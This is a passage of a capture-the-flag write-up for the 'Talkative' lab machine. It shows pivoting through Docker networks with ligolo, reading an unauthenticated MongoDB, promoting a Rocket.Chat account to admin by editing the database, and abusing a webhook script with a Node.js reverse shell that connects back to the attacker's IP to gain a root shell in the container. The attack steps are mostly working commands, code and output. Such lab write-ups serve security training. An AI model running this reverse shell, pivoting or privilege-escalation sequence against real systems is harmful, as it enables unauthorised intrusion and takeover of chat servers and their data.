ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
saul@172.17.0.1's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

saul@talkative:~$ id
uid=1000(saul) gid=1000(saul) groups=1000(saul)
saul@talkative:~$ whoami
saul
```


# Shell as `root` on RocketChat Container

### Enumeration

```bash
saul@talkative:~$ ifconfig
br-ea74c394a147: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::42:2bff:fe9e:dab9  prefixlen 64  scopeid 0x20<link>
        ether 02:42:2b:9e:da:b9  txqueuelen 0  (Ethernet)
        RX packets 8230  bytes 19986838 (19.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8286  bytes 631154 (631.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:e3ff:fee2:31a9  prefixlen 64  scopeid 0x20<link>
        ether 02:42:e3:e2:31:a9  txqueuelen 0  (Ethernet)
        RX packets 386794  bytes 831670892 (831.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 315450  bytes 25136220 (25.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.155  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:fe94:67c1  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:67c1  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:67:c1  txqueuelen 1000  (Ethernet)
        RX packets 328499  bytes 26158585 (26.1 MB)
        RX errors 0  dropped 97  overruns 0  frame 0
        TX packets 406655  bytes 850996419 (850.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

...SNIP...
```

Given the network interface result, it seems that we finally landed on the host machine.

All the services are running in docker containers, and there are a lot of them:

```bash
saul@talkative:~$ ps auxww | grep docker
root         901  0.0  1.0 1455780 21612 ?       Ssl  04:58   0:17 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root        1273  0.0  0.0 1149100 1020 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8082 -container-ip 172.18.0.2 -container-port 41339
root        1279  0.0  0.0 1148844 1004 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8082 -container-ip 172.18.0.2 -container-port 41339
root        1294  0.0  0.0 1148844  816 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8081 -container-ip 172.18.0.2 -container-port 41338
root        1300  0.0  0.0 1075368 1696 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8081 -container-ip 172.18.0.2 -container-port 41338
root        1313  0.0  0.0 1223984 1936 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8080 -container-ip 172.18.0.2 -container-port 41337
root        1319  0.0  0.1 1075368 2116 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8080 -container-ip 172.18.0.2 -container-port 41337
root        1452  0.0  0.0 1222832 2000 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 3000 -container-ip 172.17.0.3 -container-port 3000
root        1626  0.0  0.1 1075112 2108 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6000 -container-ip 172.17.0.4 -container-port 80
root        1727  0.0  0.1 1148844 2172 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6001 -container-ip 172.17.0.5 -container-port 80
root        1839  0.0  0.1 1148844 2136 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6002 -container-ip 172.17.0.6 -container-port 80
root        1961  0.0  0.1 1149100 2024 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6003 -container-ip 172.17.0.7 -container-port 80
root        2068  0.0  0.0 1223984 1912 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6004 -container-ip 172.17.0.8 -container-port 80
root        2182  0.0  0.1 1148844 2080 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6005 -container-ip 172.17.0.9 -container-port 80
root        2293  0.0  0.1 1075112 2008 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6006 -container-ip 172.17.0.10 -container-port 80
root        2405  0.0  0.0 1222576 1888 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6007 -container-ip 172.17.0.11 -container-port 80
root        2520  0.0  0.0 1075112 2004 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6008 -container-ip 172.17.0.12 -container-port 80
root        2630  0.0  0.1 1296308 2076 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6009 -container-ip 172.17.0.13 -container-port 80
root        2747  0.0  0.1 1150252 2016 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6010 -container-ip 172.17.0.14 -container-port 80
root        2859  0.0  0.0 1222576 1940 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6011 -container-ip 172.17.0.15 -container-port 80
root        2969  0.0  0.0 1148844 1912 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6012 -container-ip 172.17.0.16 -container-port 80
root        3082  0.0  0.1 1148844 2084 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6013 -container-ip 172.17.0.17 -container-port 80
root        3199  0.0  0.0 1223984 2004 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6014 -container-ip 172.17.0.18 -container-port 80
root        3311  0.0  0.0 1075112 1924 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6015 -container-ip 172.17.0.19 -container-port 80
```

- 172.18.0.2 is the jamovi container that I’ve already had a shell in.
- 172.17.0.3 is getting port 3000, so that’s likely the Rocket Chat instance.
- 172.17.0.4-19 are each getting a forward from a listening on 172.17.0.1, which is this host. This is a technique that HTB employs sometimes to keep players from spoiling and/or breaking the box for other players.

I’ll host a [statically compiled](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) `nmap` on my webserver and upload it to Talkative:

```bash
saul@talkative:~$ cd /dev/shm                     
saul@talkative:/dev/shm$ wget http://10.10.14.7:8000/nmap
--2025-03-14 14:31:51--  http://10.10.14.7:8000/nmap
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                100%[===================>]   5.67M  1.19MB/s    in 5.4s    

2025-03-14 14:31:57 (1.04 MB/s) - ‘nmap’ saved [5944464/5944464]
```

I ran port scanning on 172.17.0.2, and it founds a single port open : 27017
27017 is [commonly used for](https://www.speedguide.net/port.php?port=27017) MongoDB.

```bash
saul@talkative:/dev/shm$ ./nmap 172.17.0.2 --min-rate 10000 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-03-14 14:33 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.000088s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.56 seconds
```

### Pivot using `ligolo`

Setup a new route to use `ligolo` :

```bash
┌──(kali㉿kali)-[/opt/ligolo]
└─$ ./ligolo-setup.sh 
Select the pivot stage (1: First pivot, 2: Second pivot): 1
Enter the network range to add to the routing table (e.g., 192.168.1.0/24): 172.17.0.0/24
[sudo] password for kali: 

Configuration completed. Use the following commands to run the Proxy and Agent:

First pivot setup:
Proxy command:
sudo /opt/ligolo-ng/proxy --selfcert
Agent command:
/opt/ligolo-ng/agent --connect <LISTENER_IP>:<LISTENER_PORT> --ignore-cert

Current routing table:
default via 192.168.45.2 dev eth0 proto dhcp src 192.168.45.133 metric 100 
10.10.10.0/23 via 10.10.14.1 dev tun0 
10.10.14.0/23 dev tun0 proto kernel scope link src 10.10.14.7 
10.129.0.0/16 via 10.10.14.1 dev tun0 
172.17.0.0/24 dev ligolo scope link linkdown 
192.168.45.0/24 dev eth0 proto kernel scope link src 192.168.45.133 metric 100 
```

Run `proxy` on kali :

```bash
┌──(kali㉿kali)-[/opt/ligolo]
└─$ ./proxy --selfcert   
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: 3C52C6CB488D6ED87F4F570FD744482370C6FB2F6C92C3C5C918CA9F8CD2A48F 
INFO[0000] Listening on 0.0.0.0:11601                   

ligolo-ng » INFO[0088] Agent joined.                                 id=9dc63cb7-36a5-41a9-8dfc-b9d384ed6e93 name=saul@talkative remote="10.10.11.155:58884"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - saul@talkative - 10.10.11.155:58884 - 9dc63cb7-36a5-41a9-8dfc-b9d384ed6e93
[Agent : saul@talkative] » start
INFO[0094] Starting tunnel to saul@talkative (9dc63cb7-36a5-41a9-8dfc-b9d384ed6e93) 
```

Run agent on the target :

```bash
saul@talkative:/dev/shm$ ./agent_linux_amd64 -connect 10.10.14.7:11601 -ignore-cert                   
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.14.7:11601"
```

### Mongo DB

I need `mongodb-clients` to install.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ sudo apt install mongodb-clients
```

Then connect to the Mongo DB server.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ mongo --host 172.17.0.2 --port 27017
MongoDB shell version v7.0.14
connecting to: mongodb://172.17.0.2:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("c31c2e65-2e76-4640-a061-237696dfa42f") }
MongoDB server version: 4.0.26
WARNING: shell and server versions do not match
================
Warning: the "mongo" shell has been superseded by "mongosh",
which delivers improved usability and compatibility.The "mongo" shell has been deprecated and will be removed in
an upcoming release.
For installation instructions, see
https://docs.mongodb.com/mongodb-shell/install/
================
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
---
The server generated these startup warnings when booting: 
2025-03-14T04:58:46.093+0000 I STORAGE  [initandlisten] 
2025-03-14T04:58:46.093+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2025-03-14T04:58:46.093+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] 
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2025-03-14T04:58:47.611+0000 I CONTROL  [initandlisten] 
---
rs0:PRIMARY> 
```

There are four DBs:

```sql
rs0:PRIMARY> show databases
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB
```

`admin`, `config`, and `local` are default databases that Mongo installs. I’ll use `meteor`:

```sql
rs0:PRIMARY> use meteor
switched to db meteor
```

There are 59 of Collections (like tables), most of which start with `rocketchat_`:

```sql
rs0:PRIMARY> db.getCollectionNames()
[
        "_raix_push_app_tokens",
        "_raix_push_notifications",
        "instances",
        "meteor_accounts_loginServiceConfiguration",
        "meteor_oauth_pendingCredentials",
        "meteor_oauth_pendingRequestTokens",
        "migrations",
        "rocketchat__trash",
        "rocketchat_apps",
        "rocketchat_apps_logs",
        "rocketchat_apps_persistence",
        "rocketchat_avatars",
        "rocketchat_avatars.chunks",
        "rocketchat_avatars.files",
        "rocketchat_credential_tokens",
        "rocketchat_cron_history",
        "rocketchat_custom_emoji",
        "rocketchat_custom_sounds",
        "rocketchat_custom_user_status",
        "rocketchat_export_operations",
        "rocketchat_federation_dns_cache",
        "rocketchat_federation_keys",
        "rocketchat_federation_room_events",
        "rocketchat_federation_servers",
        "rocketchat_import",
        "rocketchat_integration_history",
        "rocketchat_integrations",
        "rocketchat_invites",
        "rocketchat_livechat_agent_activity",
        "rocketchat_livechat_custom_field",
        "rocketchat_livechat_department",
        "rocketchat_livechat_department_agents",
        "rocketchat_livechat_external_message",
        "rocketchat_livechat_inquiry",
        "rocketchat_livechat_office_hour",
        "rocketchat_livechat_page_visited",
        "rocketchat_livechat_trigger",
        "rocketchat_livechat_visitor",
        "rocketchat_message",
        "rocketchat_message_read_receipt",
        "rocketchat_oauth_apps",
        "rocketchat_oembed_cache",
        "rocketchat_permissions",
        "rocketchat_reports",
        "rocketchat_roles",
        "rocketchat_room",
        "rocketchat_sessions",
        "rocketchat_settings",
        "rocketchat_smarsh_history",
        "rocketchat_statistics",
        "rocketchat_subscription",
        "rocketchat_uploads",
        "rocketchat_user_data_files",
        "rocketchat_webdav_accounts",
        "system.views",
        "ufsTokens",
        "users",
        "usersSessions",
        "view_livechat_queue_status"
]
```

The `users` collection is always an interesting place to start:

```sql
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y" }, "email" : { "verificationTokens" : [ { "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2025-03-14T05:09:22.886Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
{ "_id" : "uLqMNFketsTpxdy2c", "createdAt" : ISODate("2025-03-14T15:31:23.638Z"), "services" : { "password" : { "bcrypt" : "$2b$10$q1CK/skDgfzFblmoFmWvW.a4pbd4jtNZiXOIDnBuAZWJnSo7hk0GC", "reset" : { "token" : "RceTK8zOqp6NgYAEaN-YK1VeWoO4O5ut-D29GH1tAmN", "email" : "0x7377@talkative.htb", "when" : ISODate("2025-03-14T15:31:30.388Z"), "reason" : "enroll" } }, "email" : { "verificationTokens" : [ { "token" : "NmD0YILh44mJItjb6aZ6zojXBoW4nEKejAphvbCLwUs", "address" : "0x7377@talkative.htb", "when" : ISODate("2025-03-14T15:31:23.732Z") } ] }, "resume" : { "loginTokens" : [ { "when" : ISODate("2025-03-14T15:31:24.057Z"), "hashedToken" : "UHosmasQ5Jos4hz8UfeTjFI/92swwFQ44m7tiDvhDc8=" } ] } }, "emails" : [ { "address" : "0x7377@talkative.htb", "verified" : false } ], "type" : "user", "status" : "online", "active" : true, "_updatedAt" : ISODate("2025-03-14T15:31:30.405Z"), "roles" : [ "user" ], "name" : "0x7377", "lastLogin" : ISODate("2025-03-14T15:31:24.054Z"), "statusConnection" : "online", "utcOffset" : -6, "username" : "0x7377" }
```

Here I can see two existing users; `rocket.cat`, `admin`, and mine; `0x7377`

I first tried to crack `admin`'s bcrypt hash using `hashcat`, but it didn't work.

Instead, I decided to change mine's role as `admin`.

```sql
rs0:PRIMARY> db.users.update({"_id": "uLqMNFketsTpxdy2c"}, { $set: { "roles" : ["admin"]}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

Then, I can see "Administration" menu added.



### Webhook

Reference : https://github.com/CsEnox/CVE-2021-22911

Click "Ingration -> New Integration -> Incoming webhook".



Then, put reverse shell script. (Enable script above)



```javascript
const require = console.log.constructor('return process.mainModule.require')();
var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(9001, "10.10.14.7", function(){
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
});
```

When saved the webhook, I can see the created Incoming webhook.



Then I can open it again, and copy the webhook url.



Let's fetch the URL.

```ruby
┌──(kali㉿kali)-[~]
└─$ curl http://talkative.htb:3000/hooks/bq87d87bFjCwgE87N/3WHE5dbWJmqME9HJbzQf9c7uCeXwdZYQ3yn8Dbxy53ZAEBJM
{"success":false}  
```

Then I can see that I got a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.155] 34212
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

Let's upgrade the terminal.

```bash
script /dev/null -c bash
Script started, file is /dev/null
root@c150397ccd63:/app/bundle/programs/server# ^Z
[1]+  Stopped                 nc -lnvp 445
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 445
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@c150397ccd63:/app/bundle/programs/server# 
```


# Shell as `root` on talkative

### Enumeration

> Let's stop here... Docker.. Capabilities.
> Let's visit this again, when I know more about it.
>